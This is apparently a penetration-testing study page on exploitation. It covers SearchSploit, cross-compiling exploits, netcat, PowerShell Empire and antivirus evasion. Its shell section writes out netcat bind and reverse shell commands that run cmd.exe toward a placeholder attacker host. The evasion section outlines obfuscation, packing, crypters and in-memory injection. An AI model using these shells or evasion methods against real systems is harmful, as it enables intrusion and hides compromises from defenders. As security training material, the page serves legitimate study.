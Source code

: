 # Exploitation
[Back](../index.md)

-- -

## Banner grabbing
nmap script banner.nse

nc ip port : banner grabbing


-- -

## Searching exploits

ExploitDB : https://www.exploit-db.com/
Rapid7 DB : https://www.rapid7.com/db/

The Exploit-db offline database of exploits can be accessed and queried with a tool called SearchSploit. Update exploitdb periodically. Use ```searchsploit -u``` to update database.

searchsploit "search term"
-c : case sensitive search
-e : Exact search
-w : URL path of exploit
-m : copy exploit to current directory using id

Exploit code downloaded needs to be verified. Exploit code needs to prepared for per case by changing IP and Port for attacker and satisfy requirements asked for exploit.

-- -

## Cross Compiling Exploits

In certain cases, exploit code will be developed in C/C++/C#, as a result, you will need to compile the exploit code in to a PE (Portable Executable) or binary.

### C/C++
Install gcc and mingw-w64
x64 : 1686-w64-mingw32-gcc exploit_id.c -o exploit
x86 : 1686-w64-mingw32-gcc exploit_id.c -o exploit -lws2_32

pre-compiled binary exploits : https://gitlab.com/exploit-database/exploitdb-bin-sploits

-- -

## Netcat

[Netcat](../../Cyber_Security/Tools/Netcat.md) (Aka TCP/IP Swiss Army Knife) is a networking utility used to read and write data to network connections using TCP or UDP.

Netcat can be used by penetration testers to perform the following functionality:
+ Banner Grabbing
+ Port Scanning
+ Transferring Files
+ Bind/Reverse Shells

Usage:

nc ip port : Connect to specified IP and Port
nc -lp port : Setup listener
-u : UDP port 
-l : listener 
-n : no DNS resolution
-e : Execute specified command
-c : Shell command 


/usr/share/windows-binaries/ to get compiled binaries for windows

-- -

## Bind & Reverse Shell

![shells](https://miro.medium.com/v2/1*iyidOQTpL-ehbP_7xGU0fA.png)

Read [Reverse_and_Bind_shell](../../Cyber_Security/Reverse_and_Bind_shell.md).

A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system.

```
attacker > nc victim_ip port

victim > nc.exe -lvp port -e cmd.exe
```

A reverse shell is a type of remote shell where the target connects directly to a listener on the attacker’s system, consequently allowing for execution of commands on the target system.

```
attacker > nc -lvp port

victim > nc.exe attacker_ip port -e cmd.exe
```


PayloadsAllTheThings : https://github.com/swisskyrepo/PayloadsAllTheThings
Reverse shell generator : https://www.revshells.com/

-- -

## Powershell Empire

PowerShell-Empire (Aka Empire) is a pure PowerShell exploitation/postexploitation framework built on cryptological-secure communications and flexible architecture.

Empire implements the ability to run PowerShell agents without needing powershell.exe, rapidly deployable post-exploitation modules ranging from keyloggers to Mimikatz, and adaptable communications to evade network detection, all wrapped up in a usability-focused framework.

In addition to being updated and modernized, BC Security, the company responsible for maintaining the Empire has also developed a companion to Empire called Starkiller.

-- -

## Windows
FTP , php , smb , mysql 

## Linux
FTP , PHP , Samba

-- -

## AV Evasion

Defense Evasion consists of techniques that adversaries use to avoid detection throughout their compromise. Techniques used for defense evasion include uninstalling/disabling security software or obfuscating/encrypting data and scripts. Adversaries also leverage and abuse trusted processes to hide and masquerade their malware. – MITR

AV software will typically utilize signature, heuristic and behaviour based detection.
1. Signature based detection - An AV signature is a unique sequence of bytes that uniquely identifies malware. As a result, you will have to ensure that your obfuscated exploit or payload doesn't match any known signature in the AV database. We can bypass signature-based detection by modifying the malware's byte sequence, therefore changing the signature.
2. Heuristic-based detection - Relies on rules or decisions to determine whether a binary is malicious. It also looks for specific patterns within the code or program calls.
3. Behavior based detection - Relies on identifying malware by monitoring it’s behavior. (Used for newer strains of malware)


### AV Evasion Techniques

On-disk Evasion Techniques
- Obfuscation - Obfuscation refers to the process of concealing something important, valuable, or critical. Obfuscation reorganizes code in order to make it harder to analyze or RE. 
- Encoding - Encoding data is a process involving changing data into a new format using a scheme. Encoding is a reversible process; data can be encoded to a new format and decoded to its original format. 
- Packing - Generate executable with new binary structure with a smaller size and therefore provides the payload with a new signature.
- Crypters - Encrypts code or payloads and decrypts the encrypted code in memory. The decryption key/function is usually stored in a stub

In-Memory Evasion Techniques
- Focuses on manipulation of memory and does not write files to disk.
- Injects payload into a process by leveraging various Windows APIs.
- Payload is then executed in memory in a separate thread.

## Shelter
install shelter and wine32
/usr/share/windows-resources/shellter/shelter.exe

## Invoke-Obfuscation
https://github.com/danielbohannon/Invoke-Obfuscation
